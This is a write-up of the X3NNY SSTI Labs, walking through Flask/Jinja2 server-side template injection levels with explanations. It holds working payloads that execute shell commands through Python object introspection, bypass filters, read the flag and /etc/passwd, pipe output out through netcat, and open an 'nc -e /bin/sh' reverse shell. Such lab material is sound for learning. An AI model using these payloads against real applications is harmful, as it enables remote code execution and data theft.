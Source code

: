 # SSTI Labs (by X3NNY) writeup
* You can find the link to the lab [here](https://github.com/X3NNY/sstilabs)

## Fingerprinting
* When we input `{{7*'7'}}`, Twig would output `49`, while Jinja2/Flask output `7777777`
* 


## Flask-Lab
### Level 1
* First, we can test for template injection by typing in `{{7 + 7}}`, which gives us `Hello 14`, which proves it is evaluating our input (and thus has SSTI)

* This is a basic problem. It doesn't seem like theres any input sanitization 
	* Here, our goal should be to find a function so we can look for the globals and run a command.

* **Note**: All these commands have to be included in the template structure `{{}}` because of how flask handles templating

* Interestingly, the python interpreter uses python itself internally, so we can access that in a bit of a roundabout way.
* The payload I used was: 

```python3
# look at files
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('ls').read() }}

# cat files
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}
```
#### Breaking down the payload
1. Here, we are using an empty string and getting the `<class 'str'>` class
2. Next, we get the base (parent) of that class, which is the python object class: `<class 'object'>
3. `__subclasses__()` is a python function that gives us all child classes of a class, so this gives us a list of classes that inheret object
	1. Now, we have to find an index of this list that imports `sys`, which you can check for in the python source code.
	2. I used the `<class 'warnings.catch_warnings'>` class, which is typically around index `140` depending on your python version
4. `__init__` is like the constructor for any given class, and it a function we can be confident is in the class.
5. Once we have a function, `__globals__` gets us all the imported modules (and other globals) in the file from the function, which includes the sys module
6. `sys` includes the the the `os` module, so we can access the `.modules` dictionary to get the modules loaded, one of which is `os`
7. Now that we have access to the os module, we can run `popen('<command>').read()` and we have arbitrary code execution!

#### Alternative methods
* **Note**: This is a general method that works for most python SSTI
* However, we can do something specific on flask sites
* Because we know this is running flask, we know a function, [`url_for`](https://flask.palletsprojects.com/en/2.0.x/api/#flask.url_for), exists, which [imports os](https://github.com/pallets/flask/blob/main/src/flask/helpers.py)
	* Thus, we can do the same thing as before and run `url_for.__globals__.os.popen(<command>).read()`
* When we type in `{{ url_for.__globals__.os.popen('cat flag').read() }}`, we get the flag: `SSTILAB{enjoy_flask_ssti}`

## Level 2
* Immediately, it looks like even something as basic as `{{7 + 7}}` or `{{7}}` returns `Hello WAF`
	* Testing more, it looks like `{{` in particular is a blocked string

* We can bypass this, as flask has [more than one](https://flask.palletsprojects.com/en/2.0.x/tutorial/templates/) template type
	* For example, there is a `{%%}` template that is used for conditional checks
	* Unfortunately, this doesn't display anything, so our RCE is completely blind.

* To account for this, we're going to cat our output with the command `cat flag | nc 127.0.0.1 4444`
	* We can listen for a connection with `nc -lvnp 4444` locally

* Alternatively, we can also try to run a reverse shell using the command `nc -e /bin/sh 127.0.0.1 4444`
	* This serves a shell to localhost (our machine) on port 4444
	
* Here's the payload I used:
```python3
{% if url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah' %}{% endif %}

```
#### Breaking down the payload
1. This checks to see if the condition `url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah'` is true
	1. In this case, we know the output won't be 'blah', but the command still executes
2. Everything between `{% if %}` and `{% endif %}` is what would typically execute if the condition was true, but we don't have to worry about that here.

### Level 3
* Here, no matter what we input, we only see `wrong` or `correct` as an output
	* This is a classic blind SSTI problem
* Once again, we can use netcat to serve the file to us on our local machine
* It looks like there isn't any WAF on this level, so we can use roughly the same payload as last time:

```python3
{{ url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444') }}
```

### Level 4
* For this level, it looks like `{{`, `}}`, `{{7 + 7}}`, and `{{7 * '7'}}` all work, but `[` and `]` are blocked 
* Thus, we can do exactly what we did in level 1:

```python3
{{ url_for.__globals__.os.popen('cat flag').read() }}
```

### Level 5
* For this level, it seems like single and double quotes are blocked

* Luckily for us, flask has another way to pass in arguments as strings without quotes
	* in fact, it has 6:
1. request.args.name (GET)
2. request.cookies.name (COOKIES)
3. request.headers.name (HEAD)
4. request.values.name (POST)
5. request.form.name (POST)
6. request.environ.name (ENVIRONMENT)

* Here's the payload I used:
```python3
{{ ().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__.__builtins__['open']('flag').read() }}

{{ ().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__.__builtins__[request.args.arg1]('flag').read() }}&arg1=open


{{ ().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__.__builtins__[request.args.COMMAND](request.args.FILENAME).read() }}&COMMAND=open&FILENAME=flag

{{ ().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read() }} post:arg1=open&arg2=/etc/passwd
```